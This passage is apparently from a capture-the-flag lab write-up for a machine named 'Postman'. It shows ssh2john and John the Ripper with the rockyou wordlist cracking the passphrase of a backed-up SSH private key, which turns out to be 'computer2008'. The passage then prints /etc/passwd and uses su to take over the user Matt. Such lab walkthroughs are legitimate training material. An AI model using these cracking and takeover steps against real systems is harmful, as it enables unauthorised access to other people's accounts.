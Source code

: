 Kali Linux can brute-force the password of a SSH private key with the John the Ripper.<br>
However, we need to change the SSH private key into the hash which format is crackable by John the Ripper.<br>
By cracking with "rockyou.txt", we can achieve a password "computer2008" for someone.
{% highlight shell %}
root@kali:~# /usr/share/john/ssh2john.py id_rsa.bak > hash.txt

root@kali:~# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:06 DONE (2020-03-15 10:55) 0.1468g/s 2105Kp/s 2105Kc/s 2105KC/sa6_123..*7¡Vamos!
Session completed
{% endhighlight %}

Actually, we have only one user "Matt" who is allowed to log in except redis.<br>
This time, we can't SSH but we can run su command to be the user "Matt".
{% highlight shell %}
redis@Postman:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash

redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ 
{% endhighlight %}
